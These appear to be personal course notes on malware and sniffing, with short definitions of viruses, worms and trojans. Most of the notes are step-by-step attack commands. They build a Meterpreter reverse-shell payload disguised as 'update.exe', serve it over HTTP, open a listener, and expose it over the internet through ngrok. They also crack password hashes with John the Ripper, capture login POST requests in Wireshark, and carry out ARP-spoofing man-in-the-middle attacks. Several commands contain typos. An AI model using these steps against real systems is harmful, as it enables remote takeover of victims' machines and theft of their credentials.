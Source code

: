 2025-04-30 19:11

Status:

Tags:

# Malware Threats


# 8/04/25
Malware 
- a Virus is self replicating program that produces its own copy by attaching itself to another program, computer boot section document. 
- Computer Worms are malicious program that replicate execute and spread across the network connections independently without human interaction
- Trojan is malicious program, binded with harmless application program 
## Steps for craeting malware 

Step:1
msfvenom -p windows/meterpeter/reverse_tcp LHOST=<attacker'sIP> LPORT<attacker'port> -f exe -o update.exe
Step:2 Share 




python3 -m http.server

Step:3 Listen 
msfconsole -q  
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp 
set LHOST 10.10.10.4
set LPORT 2222
exploit -j 


To crack hash-passwords 
john
john ``<filename>``
john --fromat=hash.txt(defult word list)
john --wordlist=``<filepath><filename>``

To check is machine is vm or not 
-run post/windows/gather/checkvm

rdesktop ``<target IP>``
or 
xfreerdp /v:``<targetIP> /u:<username>``
 /p:``<password>``
 
 
 To view 
 hack-tools 
 
 Fro WAN level attack 
- perform port forwarding on router
- Add public IP of attacker in payload creation step
- Add private IP of attacker in msf listener
- 
  services that allows port forwarding 
ngrok 
portmap.io


Malwares 
- Hackers use Wrappers and Crypters for binding 
 

Stage payload -   windows/meterpreter_bind_tcp
non-Stage payload -    windows/meterpreter/reverse_tcp


## 09/04/25
 To view web login deatils using wireshark 
http.request.method==POST

http.request.method==GET

To display only 
ip.addr==10.10.10.4 (ipaddress)

ip.src_host==10.10.10.4

ip.drs_host==10.10.10.4 (desteation )

ip.src_host==10.10.10.4 && tcp 

ip.src_host==10.10.10.4 | | tcp (icmp or || )

tcp.flags.syn==1

to view only SYN 
tcp.flags.syn==1 && tcp.flags.ack==0

To display  recent
tcp.flags.res==1

Sniffing 
- Passive sniffing  involves listening and capturing tracffic

Man In THE Middle Attack
- Most dangerous and efftive attack which can be used to redirect packets againts this attack 

steps for performing man in the middle attack 

method: 1
steps : 1 - Enable packet forwarding in attacker's device 
echo 1> /proc/sys/net/ipv4/ip_forword (to enable 1 and disable 0)
1. sudo su 
2. cat /proc/sys/net/ipv4/ip_forward
3. echo 1 >  /proc/sys/net/ipv4/ip_forward

steps : 2 - ARP Poisoning /spoofing 
- using  dsnif
sudo apt install dsnif 
arpspoof 
1.''arpspoof -t '' <target's ip> <gateway ip/ router ip> ''
2.  ''arpspoof -t <gateway ip/ router ip> <target's ip> ''
	1. arpspoof -t 10.10.10.5 10.10.10.1 
	2. arpspoof -t 10.10.10.1 10.10.10.5

3. open wire shark 
4. use in filters 
5. http.request.method==POST

method: 2


purpose of promiscu   




### References
